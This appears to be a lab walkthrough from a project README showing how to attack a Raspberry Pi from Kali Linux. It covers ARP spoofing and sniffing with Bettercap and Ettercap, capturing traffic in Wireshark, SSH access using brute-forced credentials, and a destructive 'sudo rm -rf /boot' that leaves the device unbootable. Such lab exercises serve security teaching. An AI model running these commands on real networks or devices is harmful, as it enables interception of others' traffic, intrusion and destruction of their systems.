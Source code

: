 Launch Bettercap with elevated privileges:
```bash
sudo bettercap
```

In-session commands for ARP spoofing against the Raspberry Pi target:
```bash
net.show
set arp.spoof.targets 192.168.121.174  # Raspberry Pi target IP
arp.spoof on
net.sniff on
```

**Ettercap GUI Method (from Kali Linux):**

Launch Ettercap with GUI:
```bash
ettercap -G
```

Follow GUI workflow to target the Raspberry Pi:
1. Scan the network for hosts (including the Raspberry Pi)
2. Select the Raspberry Pi as target
3. Start ARP poisoning against the Pi
4. Monitor intercepted traffic from the Pi

**Wireshark Analysis (from Kali Linux):**

Launch Wireshark for packet analysis:
```bash
wireshark
```

These steps allow interception and observation of network traffic originating from the Raspberry Pi target.

### SSH Access & Boot Partition Inspection

**After gaining SSH access to the Raspberry Pi from Kali Linux:**

Once SSH credentials are obtained (via brute-force or other means), connect from Kali Linux:
```bash
ssh CSE@<raspberry_pi_ip>
```

**Boot Partition Inspection (on the Raspberry Pi target):**

After obtaining SSH access, inspect the boot partition:
```bash
ls -lah /boot/firmware
```

**⚠️ DESTRUCTIVE TEST (Lab Environment Only):**

In a controlled test environment, critical boot files can be removed on the Raspberry Pi:
```bash
sudo rm -rf /boot
```

**WARNING**: This renders the Raspberry Pi unbootable. Recovery requires:
1. Reimaging the SD card
2. Reinstalling Raspbian OS
